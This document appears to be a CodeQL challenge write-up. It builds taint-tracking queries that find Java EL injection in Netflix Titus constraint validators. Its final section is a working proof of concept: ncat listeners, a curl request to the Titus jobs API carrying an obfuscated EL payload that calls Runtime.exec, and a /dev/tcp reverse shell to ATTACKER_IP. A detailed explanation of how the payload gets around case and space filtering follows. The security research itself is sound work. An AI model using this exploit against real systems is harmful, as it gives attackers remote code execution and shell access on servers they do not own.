


For explaining Step 1-3 I'll be giving the relevant, commented portion of the query for each step. A brief explanation will be there if needed.
All the raw queries that I developed sequentially while solving the steps are available in [codeql/](codeql/)(One _may_ find an easter egg or two there).

## Step 1: Data flow and taint tracking analysis

### Step 1.1: Sources

```codeql
predicate isSource(DataFlow::Node source) {
  exists(Method overriding, Method overridden|
    // the isValid we are looking for should be an overriding method 
    overriding.overrides(overridden) and 
    // the method which is overridden should match the pattern
    overridden.getQualifiedName().matches("ConstraintValidator<%,%>.isValid") and
    // source would be the first parameter of the overriding method
    source.asParameter() = overriding.getParameter(0)
  )
}
```

Quick Eval gives-


### Step 1.2: Sink

```codeql
predicate isSink(DataFlow::Node sink) {
  exists(Call c|
    // first argument of the call will be sink
    c.getArgument(0) = sink.asExpr() and 
    // the calls of this function are the ones we're interested in
    c.getCallee().getQualifiedName() = "ConstraintValidatorContext.buildConstraintViolationWithTemplate"
  )
}
```

Quick Eval Gives-


### Step 1.3: TaintTracking configuration

```codeql
/** @kind path-problem */
import java
import semmle.code.java.dataflow.TaintTracking
import DataFlow::PathGraph

class ELInjectionTaintTrackingConfig extends TaintTracking::Configuration {
    ELInjectionTaintTrackingConfig() { this = "ELInjectionTaintTrackingConfig" }

    override predicate isSource(DataFlow::Node source) { ... }

    override predicate isSink(DataFlow::Node sink) { ... }
}

from ELInjectionTaintTrackingConfig cfg, DataFlow::PathNode source, DataFlow::PathNode sink
where cfg.hasFlowPath(source, sink)
select sink, source, sink, "Custom constraint error message contains unsanitized user data"
```

Running Query gives-


:(

### Step 1.4: Partial Flow to the rescue

```codeql

/**
* @kind path-problem
*/
import java
import semmle.code.java.dataflow.TaintTracking
import DataFlow::PartialPathGraph // this is different!

class ELInjectionTaintTrackingConfig extends TaintTracking::Configuration {
    ELInjectionTaintTrackingConfig() { this = "ELInjectionTaintTrackingConfig" } // same as before
    override predicate isSource(DataFlow::Node source) // same as before
    { ... }
    override predicate isSink(DataFlow::Node sink) // same as before
    { ... }
    override int explorationLimit() { result =  10} // this is different!
}
from ELInjectionTaintTrackingConfig cfg, DataFlow::PartialPathNode source, DataFlow::PartialPathNode sink
where
  cfg.hasPartialFlow(source, sink, _) and
    exists(Method m|
        // The function whose first parameter will be our source for partial flow checking
        m.getQualifiedName() = "SchedulingConstraintSetValidator.isValid" and
        source.getNode().asParameter() = m.getParameter(0)
    )
select sink, source, sink, "Partial flow from unsanitized user data"
```

Running Query gives-


### Step 1.5: Identifying a missing taint step

This step required me to talk!?!?!
So be it ¯\\\_(ツ)\_/¯

The first 4 results in the previous step concern us, so lets have a look at them-



It can be seen that taint doesn't propagate through methods `getHardConstraints` and `getSoftConstraints` and my sixth sense says that the same would happen for `keySet`

Now that I've found the beast, It is time to kill it!

### Step 1.6: Adding additional taint steps

So I added the required `step` predicate to both my normal flow tracking query and partial flow tacking query-

```codeql
class CustomAdditionalStep extends TaintTracking::AdditionalTaintStep {
    override predicate step(DataFlow::Node node1, DataFlow::Node node2) {
        exists(MethodAccess ma, Callable c |
            // spreead taint from the method access' qualifier
            node1.asExpr() = ma.getQualifier() and
            // to the method access
            node2.asExpr() = ma and
            c = ma.getCallee() and
            // if
            (
                (
                    // method accessed belongs to these
                    c.getQualifiedName() in ["Container.getSoftConstraints", "Container.getHardConstraints"] 
                // or ¬‿¬
                ) or
                (
                    // it is an access of these methods
                    c.getName() in ["keySet"] and
                    // from a type which inherits from this type
                    c.getDeclaringType().getASupertype().getQualifiedName().matches("java.util.Map<%>")
                )
            )
        )
    }
}
```

Running Normal Flow Query-


:(

Running Partial Flow Query-


:)

The 4 new Locations-


### Step 1.7: Adding taint steps through a constructor

Now we can see that the taint doesn't flow through `HashSet`'s constructor so it is time to extend the `step` predicate-

```codeql
class CustomAdditionalStep extends TaintTracking::AdditionalTaintStep {
    override predicate step(DataFlow::Node node1, DataFlow::Node node2) {
        //spread taint from
        exists( ... )
        // or ¯\_(ツ)_/¯
        ) or
        exists(ConstructorCall cc |
            // a constructor call's argument
            node1.asExpr() = cc.getAnArgument() and
            // to the constructor call
            node2.asExpr() = cc and
            // if the type constructed matches
            cc.getConstructedType().getName().matches("HashSet<%>")
        )
    }
}
```

Running Query-


5 new results :)
Though by now I am tired ot taking these location screenshots and editing them together so here is the location that matters to us-


Hence the taint is indeed spreading to the constructor :)

### Step 1.8: Finish line for our first issue

So here is the overview of the query-

```codeql

/** 
* @kind path-problem 
*/
import java
import semmle.code.java.dataflow.TaintTracking
import DataFlow::PathGraph

class CustomAdditionalStep extends TaintTracking::AdditionalTaintStep {
    override predicate step(DataFlow::Node node1, DataFlow::Node node2) { ... }
}

class ELInjectionTaintTrackingConfig extends TaintTracking::Configuration {
    ELInjectionTaintTrackingConfig() { this = "ELInjectionTaintTrackingConfig" }

    override predicate isSource(DataFlow::Node source) { ... }

    override predicate isSink(DataFlow::Node sink) { ... }
}

from ELInjectionTaintTrackingConfig cfg, DataFlow::PathNode source, DataFlow::PathNode sink
where cfg.hasFlowPath(source, sink)
select sink, source, sink, "Custom constraint error message contains unsanitized user data"
```

Find the full query [here](codeql/1.8.ql)

Running query-


Location-


Woohoo game's over pack up time mates!

### Step 2: Second Issue

...or so I thought :'(

So I am supposed to look for a similar issue in `SchedulingConstraintValidator.java`. Lets have a look at the `isValid` method in this file


So it seems like there are a few more functions to allow the tain to pass through, namely- `stream`, `map`, `collect` and _theoretically_ that should be all. Now this should only need editing 1 line and commenting another in the previous query!

Let me try showing what a diff between the 2 queries would look like-

```codeql
    /** 
    * @kind path-problem 
    */
    import java
    import semmle.code.java.dataflow.TaintTracking
    import DataFlow::PathGraph

    class CustomAdditionalStep extends TaintTracking::AdditionalTaintStep {
        override predicate step(DataFlow::Node node1, DataFlow::Node node2) {
            //spread taint from
            exists(
                ...
                (
                    (
                        ...
                    ) or
                    (
                        // it is an access of these methods
-                       c.getName() in ["keySet"] and
+                       c.getName() in ["keySet", "stream", "map", "collect"]
-                       // from a type which inherits from this type
-                       c.getDeclaringType().getASupertype().getQualifiedName().matches("java.util.Map<%>")
+                       // PS: removed the below line since now we have a lot of functions that belong to different classes and it isn't necessary to get all their types as the query is fast and retains it accuracy
+                       // c.getDeclaringType().getASupertype().getQualifiedName().matches("java.util.Map<%>")
                    )
                )
            ) or
            exists( ... )
        }
    }

    class ELInjectionTaintTrackingConfig extends TaintTracking::Configuration {
        ELInjectionTaintTrackingConfig() { this = "ELInjectionTaintTrackingConfig" }

        override predicate isSource(DataFlow::Node source) { ... }

        override predicate isSink(DataFlow::Node sink) { ... }
    }

    from ELInjectionTaintTrackingConfig cfg, DataFlow::PathNode source, DataFlow::PathNode sink
    where cfg.hasFlowPath(source, sink)
    select sink, source, sink, "Custom constraint error message contains unsanitized user data"
```

Running Query-


1 New Location:



This time I remember that there's Step 3.

## Step 3: Errors and Exceptions

I added a small thing here which I thought to be fitting-
```java
try {
    a.parse(b);
} catch (Exception e) {
    sink(e.getMessage())
}
```
If `parse` throws an exception which is caught as `e` then `step` should spread the taint from both `a` and `b` to `e.getMessage()` as the cause can be `a` as well.

For the heuristic to select the method;
My first thought was that the method should return something out of the exception so I went through [the docs page for the Exception class](https://docs.oracle.com/javase/8/docs/api/java/lang/Exception.html) and found that these functions could return something useful -`getCause`, `getLocalisedMessage`, `getMessage`, `toString`. This is where I also observed something, three of them begin with `get` leading to me finding about the `GetterMethod` in codeql.
Though the description of `GetterMethod` didn't seem promising-

> A getter method is a method with the following properties:
>
> - it has no parameters,
> - its body contains exactly one statement that returns the value of a field.

Though it is clear that those 3 methods will be doing some processing than these 3 properties restrict and there is a very very small chance that a custom `Exception` would override them to make them a `GetterMethod`. I still had a go with it being heuristic and got 0 results :p.

Now I though in the direction of... These 'get%' patterned Exception methods do stuff and return it so there ought to be more such patterned methods in the custom exceptions. Basically I took the advantage of the good naming practices people follow while coding in Java :p.

Hence my final Heuristic is-

- The method name should not be `getStackTrace`, `getSuppressed`, since they return useless things
AND
(
  - The method name should follow the pattern `get%` or `Get%` or be `toString`

  OR

  - The method should be a `GetterMethod`, though this doesn't gice any results in our case there is still that very very small possibility it might work somewhere, someday.
)

Withough further ado, here is the new class that was added-
```codeql
class TryCatchAdditionalStep extends TaintTracking::AdditionalTaintStep {
    override predicate step(DataFlow::Node node1, DataFlow::Node node2) {
        exists(TryStmt ts, CatchClause cc, MethodAccess ma1, MethodAccess ma2, VarAccess va, string methodName, RefType caught|
            // spread taint from a variable access
            node1.asExpr() = va and
            // which lies in a try block,
            va.getEnclosingStmt() = ts.getBlock().getAChild() and
            // is the qualifier(this is the thing I added :P) or an argument of a method access and
            (ma1.getQualifier() = va or ma1.getAnArgument() = va) and
            cc = ts.getACatchClause() and
            caught = cc.getACaughtType() and
            // throws an Exception which is caught by catch block associated with the try block
            ma1.getCallee().getAThrownExceptionType().getASupertype*() = caught and
            // to a method access
            node2.asExpr() = ma2 and
            // in that catch clause
            ma2.getEnclosingStmt() = cc.getBlock().getAChild() and
            // whose qualifier is the caught Exception variable
            ma2.getQualifier() = cc.getVariable().getAnAccess() and
            methodName = ma2.getCallee().getName() and
            // and the method name follows the conditions that
            ( 
                not (
                    // it is not one of these
                    methodName in ["getStackTrace", "getSuppressed"]
                ) 
            ) and
            (
                // and
                (
                    // follows these
                    methodName.matches("get%") or methodName.matches("Get%") or methodName = "toString"
                // or
                ) or
                (
                    // the method is a GetterMethod(though this has no reason to be here as I explained :/)
                    ma2.getMethod() instanceof GetterMethod
                )
            )
        )
    }
}
```

Also if you want to try executing this yourselves please run Quick Evaluation on the predicate `evalme` in the [query file](codeql/3.ql). Running Quick Evaluation on the `step` predicate results in both of the overriding `step` predicates to be evaluated and will result in A LOT of extra results.

Here's what you'll get if the Quick Evaluation is done correctly-


## Step 4: Exploit and remediation

### Step 4.1: PoC

To get a shell, you'll need a system with ports 5060, 2222 free(and allowed through firewall). Also DO NOT change the port numbers anywhere as they _might_ interfere with payload logic

Replace the following texts-
- HOST_IP: with host IP Address or domain name
- ATTACKER_IP: with your IP Address or domain name

#### Step 1
Now first get on 2 shells on your system and run-
```bash
ncat -k -l -p 5060
ncat -k -l -p 2222
```
(I like ncat, but netcat's cool as well)

#### Step 2
Now run this curl request from anywhere and replace HOST_IP and ATTACKER_IP
```bash
    curl --location --request POST 'HOST_IP:7001/api/v3/jobs' \
    --header 'Content-Type: application/json' \
    --data-raw '{
        "container": {
            "softConstraints": {
                "constraints": {
                    "#{'\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\'').class.methods[7].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\''), '\''1'\'').class.methods[3].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\'').class.methods[7].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\''), '\''java.lang.8untime.get9untime().exec(\" /bin/bash -c 'sh\</dev/tcp/ATTACKER_IP/5060\>/dev/tcp/ATTACKER_IP/2222' \")'\''.replace('\''8'\'', 82).replace('\''9'\'', 82))) + '\'''\''}": "lol"
                }
            }
        },
        "service": {
            "retryPolicy": {
                "immediate": {
                    "retries": 10
                }
            }
        }
    }'
```

#### Step 3
Run any `sh` command into the `5060` ncat connection

#### Step 4
???

#### Step 5

### PROFIT


#### So what does that all gobbled up thingy do?

First step- How did I figured this JSON and the endpoint out. Thanks to netflix, they have a complete API documentation in their [titus-api-definitions](https://github.com/Netflix/titus-api-definitions) repository. The CodeQL shenanigans showed vulnerability in the constraint validator of the fields `softConstraints` and `hardConstraints` of Container class. So, if there's an endpoint that deserializes user controlled Container class, I get one step closer to RCE. One such enpoint is the endpoint that creates jobs using Job Descriptors, which in turn contains a Container - Bingo. All I had to do was to convert this [protobuf specification](https://github.com/Netflix/titus-api-definitions/blob/master/src/main/proto/netflix/titus/titus_job_api.proto) to REST JSON.

It is time for me to know more about Java EL Injection and [this awesome report](https://www.exploit-db.com/docs/english/46303-remote-code-execution-with-el-injection-vulnerabilities.pdf) on exploit DB taught me all.

After experimenting I observed that only Deferred EL Expressions seem to work and they are rather troublesome to work with. The main problem being-

> Deferred evaluation expressions take the form #{expr} and can be evaluated at other phases of a page lifecycle as defined by whatever technology is using the expression.
[Oracle Docs](https://docs.oracle.com/javaee/6/tutorial/doc/bnahr.html)

So I cannot use Multiple line payloads...

After trying `#{7*7}` weirdly I couldn't get any other testing payload to work, then I struck this-
```
#{''.class + ''}
```
and in the output I got- 
```
[class java.lang.String]
```

So what must have happened is that by default all expressions aren't being evluated but when they are addded with a `''` the `toString()` method is called. Similar to how this works- 
```java
System.out.println(1 + " one");
```

Next blocker is that sending UpperCase letters in the payload seems to break everything, probably everything is being converted to lowercase before execution. But there's a workaround for this ~(＾◇^)/. To see that let me clean up the relevant part of my payload first.

```java
''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')).class.getBindings.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')), 'js').class.registerEngineMimeType.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')).class.getBindings.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')), 'js'), '1').class.getEngineByExtension.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')).class.getBindings.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')), 'js').class.registerEngineMimeType.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')).class.getBindings.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')), 'js'), 'java.lang.Runtime.getRuntime().exec(\" /bin/bash -c sh</dev/tcp/ATTACKER_IP/5060>/dev/tcp/ATTACKER_IP/2222 \")')'
```

Which is a twisted way to run-
```java
${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"/bin/bash -c sh</dev/tcp/ATTACKER_IP/5060>/dev/tcp/ATTACKER_IP/2222\\\")"))}'
```
(this payload was taken from that expoit DB report or this [Github security lab report](https://securitylab.github.com/advisories/GHSL-2020-030-dropwizard) or perhaps both ¯\\\_(ツ)\_/¯ I don't remember)

To deal with the UpperCase issue I came up with 2 solutions-

1. For Methods with uppercase letters in their name, I accessed using the `methods` array belonging to any `.class` object and using `invoke` reflection API to run it, eg `''.class.class.methods[14]` is used to access `java.lang.Class.forName(java.lang.String)`. Which method lies at which index? This came in handy in listing all of them- 

```java
import java.lang.reflect.*; 

public class HelloWorld{

     public static void main(String []args){
        Class a = Class.class;
        for (int i = 0; i< a.getMethods().length; i++)
        System.out.println(i + " -> " + a.getMethods()[i] );
     }
}
```

2. For Strings with uppercase letters, I though of various ways after going through all of the methods the `String` class gives and various Java gimmicks- 
    - `'aaa'.concat(B)` to append an ascii value or ascii value tyecasted to char
    - `aaa\u0042`Escaping Unicode characters
    - `'aaa'+(char)66` adding typecasted char directly to string
    - `'aaa1'.replace('1', 66)` replacing a dummy value with the ascii value

I spent hell lot of time on the first 3 but the last method, which seems the most absurd, worked... :/  
So, these expressions on my payload should start making sense-
```java
'javax.script.1cript2ngine3anager'.replace('1', 83).replace('2', 69).replace('3', 77)
```
output-
```
0 -> public static java.lang.Class java.lang.Class.forName(java.lang.String) throws java.lang.ClassNotFoundException
...
14 -> public java.lang.Object java.lang.Class.newInstance() throws java.lang.InstantiationException,java.lang.IllegalAccessException
...
```

After getting `exec()` working I faced another blocker, `sh` doesn't give input redirection and piping, and `/bin/bash -c "command"` was rejecting spaces in the `command`. After some googling and struck [gold](http://zoczus.blogspot.com/2013/10/en-unix-rce-without-spaces.html).  
```bash
sh</dev/tcp/xxxx.pl/5060>/dev/tcp/xxxx.pl/2222
```
This gave me an ez RCE as the `exec()` process is spawned as an independent process and I could freely communicate with `sh` over network :)
